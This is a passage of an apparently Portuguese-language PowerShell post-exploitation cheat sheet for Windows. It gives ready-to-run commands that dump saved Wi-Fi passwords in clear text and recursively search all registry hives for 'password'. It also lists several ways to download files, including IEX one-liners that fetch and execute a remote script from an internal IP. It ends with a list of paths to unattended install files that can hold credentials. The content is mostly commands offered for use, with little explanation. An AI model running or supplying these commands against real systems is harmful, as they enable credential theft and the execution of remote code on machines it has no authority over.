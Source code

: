 ```powershell
(netsh wlan show profiles) | Select-String "\:(.+)$" | %{$name=$_.Matches.Groups[1].Value.Trim(); $_} | %{(netsh wlan show profile name="$name" key=clear)}  | Select-String "Key Content\W+\:(.+)$" | %{$pass=$_.Matches.Groups[1].Value.Trim(); $_} | %{[PSCustomObject]@{ PROFILE_NAME=$name;PASSWORD=$pass }} | Format-Table -AutoSize
```

#### Patterns no Registro

```powershell
$pattern = "password"
$hives = "HKEY_CLASSES_ROOT","HKEY_CURRENT_USER","HKEY_LOCAL_MACHINE","HKEY_USERS","HKEY_CURRENT_CONFIG"
```

#### Chaves no Registro

```powershell
foreach ($r in $hives) { gci "registry::${r}\" -rec -ea SilentlyContinue | sls "$pattern" }
```

#### Valores no Registro

```powershell
foreach ($r in $hives) { gci "registry::${r}\" -rec -ea SilentlyContinue | % { if((gp $_.PsPath -ea SilentlyContinue) -match "$pattern") { $_.PsPath; $_ | out-string -stream | sls "$pattern" }}}
```
funcorp
### Download de Arquivos

Escolha um e seja feliz!

```powershell
Invoke-WebRequest -Uri $url -OutFile $output
(New-Object System.Net.WebClient).DownloadFile($url, $output)
Start-BitsTransfer -Source $url -Destination $output
Start-BitsTransfer -Source $url -Destination $output -Asynchronous
IEX(New-Object Net.WebClient).DownloadFile('http://0.0.0.0/arquivo','output')
powershell.exe IEX(New-Object Net.WebClient).DownloadString('http://192.168.0.5/power.ps1')
```

### Extraindo Arquivos Zip

```powershell
Expand-Archive -Path $Source -DestinationPath $Destination
```

### Unattended Files

```powershell
C:\Windows\sysprep\sysprep.xml
C:\Windows\sysprep\sysprep.inf
C:\Windows\sysprep.inf
C:\Windows\Panther\Unattended.xml
C:\Windows\Panther\Unattend.xml
C:\Windows\Panther\Unattend\Unattend.xml
C:\Windows\Panther\Unattend\Unattended.xml
C:\Windows\System32\Sysprep\unattend.xml
C:\Windows\System32\Sysprep\unattended.xml
C:\unattend.txt
C:\unattend.inf
dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
```
